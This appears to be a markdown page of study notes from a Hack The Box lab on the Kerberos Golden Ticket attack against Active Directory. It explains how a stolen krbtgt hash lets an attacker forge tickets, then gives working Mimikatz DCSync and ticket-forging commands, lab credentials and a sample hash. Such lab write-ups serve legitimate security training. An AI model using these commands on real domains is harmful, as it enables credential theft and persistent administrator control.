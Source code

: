 # Golden Ticket

- The **Golden Ticket** attack enables attackers to forge and sign TGTs (Ticket Granting Tickets) using the **krbtgt** account's password hash. When these tickets get presented to an AD server, the information within them will not be checked at all and will be considered valid due to being signed with krbtgt account's password hash. For example, it is possible to sign a ticket for a user that does not exist, such as **DoesNotExist**, have the ticket also say they are a Domain Administrator, and request a TGS (Ticket Granting Service) ticket which enables them to access remote machines. For stealth reasons, it is almost always better to utilize users that exist in the domain. However, putting fake information in the ticket can be a great way to show the impact and the lack of monitoring an organization has around these events. 

- One of the scariest things about the Golden Ticket attack is how often pentesters will gain access to this key; when performing **DCSYNC (using Mimikatz) or SecretsDump (using Impacket)**, the key is KRBTGT's NTLM hash. This account is special because changing its password has to be done twice and cannot be done in rapid succession. The AD Forest must reach full convergence, meaning the change has to replicate across the entire domain before it can be changed again. This is because this key is used for Domain Controllers to authenticate with each other! It should happen within 10 hours, but organizations typically wait 24 hours to minimize the chance of any issue. Within that time Window, if the attacker notices it changed and they grab it again, the process will have to be repeated. 


## Theory

- Following the **TGT request (AS-REQ)**, the Domain Controller sends the user back their TGT. The TGT is a piece of data that contains information about the user. All this information is contained in the **PAC (Privilege Attribute Certificate)**.

- The PAC is copied into each TGS ticket so that service accounts know who they are dealing with. Therefore, this information must be adequately protected so users cannot arbitrarily change it. 

- Domain Controllers use the key of the **krbtgt** account to encrypt TGTs; therefore, it is necessary to know the password of this account to modify a TGT. Within any AD environment, **krbtgt** is the most sensitive and vital account since it ensures that users belong to their appropriate/specific groups. 

- But what happens if an attacker steals the secret of the **krbtgt** account? Well, they can decipher any TGT, thus the PAC within it, arbitrarily modify its information (for example, by making it look like a user belongs to the Domain Admins group) and encrypt it again using the secret of **krbtgt**. This forged ticket is called a **Golden Ticket**. 

- Forging a golden ticket is an excellent technique to maintain persistence within an AD environment. Once full domain compromise is achieved, an attacker can extract the **NTLM hash of the krbtgt account** using **DCSync (or from the NTDS.DIT file using a variety of methods)**. This includes the **domain name, domain SID, name and RID of the account to impersonate (i.e., RID 500 for the built-in administrator account)**, and the RIDs of any groups the account should belong to; once we attain all four pieces of information, a Kerberos ticket can be forged for the target account. 

- Using a **Pass the Ticket** attack, we can import the golden tick to the current session to use tools in the context of the impersonated account. As an attacker, you can forge a ticket to impersonate a sensitive user, who, although privileged in access, may not be a member of heavily monitored groups, such as **Domain Admins and Enterprise Admins**. 


## Windows


Different elements are needed to forge a Golden Ticket: 

1. Domain Name
2. Domain SID
3. Username to Impersonate
4. KRBTGT's hash

- We already know the domain name; let's get the domain's SID by using **Get-DomainSID from PowerView**: 

### Retrieving Domain SID 

- RDP to 10.129.90.25 with user "htb-student" and password "HTB_@cademy_stdnt!"

	xfreerdp /v:10.129.90.25 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution /cert-ignore


	PS C:\Tools> Import-Module .\PowerView.ps1
	PS C:\Tools> Get-DomainSID
	S-1-5-21-1870146311-1183348186-593267556
	

![Get SID](/Ticket-Abuse/images/Get-SID.png) 

- Then, we need to have a compromised **krbtgt** account one way or another to get its NTLM hash. We can use **mimikatz** to forge a Golden Ticket when we have this information. If we compromised an account with DCSync privileges, we can use mimikatz to get the **krbtgt** hash using the following command. 

### Running Mimikatz get the KRBTGT Hash 


	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
	  

	mimikatz # lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
	

- We now have the **krbtgt** NTLM hash, which is **c0231bd8a4a4de92fca0760c0ba9e7a6**. To impersonate the Administrator account, we can use mimikatz to forge the Golden Ticket as follows: 

### Forging the Golden Ticket


	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:c0231bd8a4a4de92fca0760c0ba9e7a6 /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: c0231bd8a4a4de92fca0760c0ba9e7a6 - rc4_hmac_nt
	Lifetime  : 1/14/2024 3:59:03 PM ; 1/11/2034 3:59:03 PM ; 1/11/2034 3:59:03 PM
	-> Ticket : ** Pass The Ticket **

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
	
- As we see on the last line (before exit), the Golden Ticket has been created and submitted for the current session. We can double-check this using the **klist command**.


### List the Golden Ticket in the Current Session

![klist](/Ticket-Abuse/images/klist.png) 

- So now have a valid TGT indicating we are **Administrator** and stating that we belong to several groups, including **Domain Admins**. If we need to request a service, we'll ask for a TGS ticket using this TGT, and a copy of the forged PAC will be embedded in the TGS ticket. For example, if we want to access a server using WinRM, we'll have a remote shell as **Administrator**. 


### Using WinRM with the Golden Ticket to Connect to DCO1

	PS C:\Tools> Enter-PSSession dc01
	

![Admin](/Ticket-Abuse/images/admin.png) 

- And if we come back to our original shell, we can see that we now have a TGS ticket for the **HTTP/dc01 SPN as Administrator**. 


### Reviewing the Ticket information 

![Tickets](/Ticket-Abuse/images/tickets.png) 

